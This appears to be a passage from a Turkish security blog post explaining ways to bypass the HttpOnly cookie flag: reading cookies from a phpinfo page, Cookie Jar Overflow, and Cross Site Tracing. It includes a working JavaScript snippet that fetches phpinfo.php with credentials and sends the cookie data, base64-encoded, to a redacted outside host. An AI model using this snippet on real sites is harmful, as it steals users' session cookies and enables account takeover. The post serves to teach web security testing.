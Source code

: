 Bu noktadan itibaren XHR kullanarak PHPInfo dosyasını okumanız durumunda HttpOnly işaretlenmiş Cookie'leri de rahatlıkla çalabilmiş olacaksınız. Örnek XHR kodu ise şu şekilde olacaktır;
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
var url = 'https://REDACTED/phpinfo.php';
req.withCredentials = true;
req.open('GET', url, false);
req.send();

function reqListener() {
var req2 = new XMLHttpRequest();
const sess = this.responseText.substring(this.responseText.indexOf('HTTP_COOKIE') + 1 );
req2.open('GET', 'https://REDACTED/?data=' + btoa(sess), false);
req2.send()
};
```

Bu noktada esasında başlıkta "HttpOnly Bypass via PHPInfo File" dedik fakat methoddan anlayabileceğiniz üzere HttpOnly işaretlenen Cookie değerini sayfanın kaynağına plain text yazan herhangi bir sayfada işe yarayacaktır. Elbetten kullanacağımız XHR kodunda ufak değişiklikler olacaktır.

### Cookie Jar Overflow
Cookie Jar Overflow ile HttpOnly flag'ının nasıl bypasslandığını anlamak için öncelikle Cookie Jar Overflow'un ne olduğundan bahsetmek gerekir. "Overflow" kelimesini duyar duymaz kafanızda bazı şeylerin canlandığını biliyorum. Konuya açıklık getirmek gerekirse; kullandığımız her tarayıcının depolayacakları Cookie sayısı konusunda limitasyonları bulunmaktadır. Bu limitasyonlar tarayıcıdan tarayıcıya değişse de bir domain için birkaç yüz Cookie ile sınırlıdır. Eğer daha fazla Cookie yazılırsa eski Cookie'ler silinmeye başlar. 

Buradan yola çıkarak eğer çok sayıda Cookie tanımlayabilirsek eski HttpOnly işaretlenmiş Cookie'ler silinecektir. Böylece aynı isimde HttpOnly olmayan bir Cookie tanımlanabilecektir. Her şey güzel fakat burada web uygulamasını etkileyen durum nedir dediğinizi duyar gibiyim. Web uygulamasının bu zafiyetten etkilenmesi için sessionid değeri değişmesine rağmen hesapta aktif oturumun devam ettiği bir senaryo olmalıdır.  (Bknz: Session Fixation)

Demo ortamı ve detaylı bilgi için zafiyeti bulan araştırmacı olan <a href="https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/" target="_blank">Sjoerd Langkemper'ın blogpost'una</a> göz atabilirsiniz.

### Cross Site Tracing (XST)
Konuya bir girişgah yapmadan şunu belirtmeliyim ki modern tarayıcılar TRACE methodu kullanılarak yapılan JavaScript Request'lerine izin vermemekte. Bu noktada bu zafiyetin güncelliğini bir noktada yitirdiğini söyleyebiliriz. Fakat literatürde var olan bir zafiyete de kısaca değinmeden geçmek istemedim.

<img src="/assets/blog-photos/http-security-headers-bypasses/trace-method-not-allowed-firefox.png" class="imgCenter" alt="Trace Method Not Allowed - Firefox" />
